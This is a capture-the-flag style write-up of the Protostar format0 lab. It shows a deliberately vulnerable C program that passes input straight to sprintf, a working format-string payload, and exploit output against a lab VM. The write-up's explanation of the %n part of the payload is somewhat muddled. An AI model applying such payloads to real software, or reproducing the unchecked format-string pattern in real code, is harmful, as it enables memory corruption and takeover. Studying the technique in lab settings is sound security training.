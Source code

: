 # Format0 | Protostar

This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.
  
Hints:
- This level should be done in less than 10 bytes of input.
- “Exploiting format string vulnerabilities”  
  
Reference:  
- https://medium.com/swlh/binary-exploitation-format-string-vulnerabilities-70edd501c5be

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
The program takes a single argument that is supplied as a format string to sprintf(). The target value will be immediately after the buffer space in memory.

## Solution
Of particular interest in the reference is the following:
  
*Overwriting memory at any location  
In printf(), %n is a special case format specifier. Instead of being replaced by a function argument, %n will cause the number of characters written so far to be stored into the corresponding function argument.. For example, the following code will store the integer 5 into the variable num_char.*
```c
int num_char;
printf(“11111%n”, &num_char);
```
*With dummy output characters and width-controlling format specifiers, the attacker can now write arbitrary integers to the location pointed to by the function argument.
The following is an example of a width-controlling format specifier, which will help attackers avoid extremely long exploit strings (And allow attackers to access arbitrary locations even if the buffer is not large enough for the number of padding characters needed).*
```c
int num_char;
printf(“%10d%n”, 0, &num_char); 
-> will print "          0", num_char is 10
```
Therefore, in order to write to the target, the following gets supplied as an argument `%64d%n\xef\xbe\xad\xde`.
This writes 64 bytes to the buffer, followed by the value into the target address.
```bash
kali@kali:~/Desktop/protostar$ python solve_format0.py
[+] Connecting to 192.168.34.136 on port 22: Done
[*] user@192.168.34.136:
    Distro    Unknown Unknown
    OS:       Unknown
    Arch:     Unknown
    Version:  0.0.0
    ASLR:     Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Opening new channel: ['/opt/protostar/bin/format0', '%64d%n\xef\xbe\xad\xde']: Done
[+] Receiving all data: Done (37B)
[*] Closed SSH channel with 192.168.34.136
you have hit the target correctly :)
```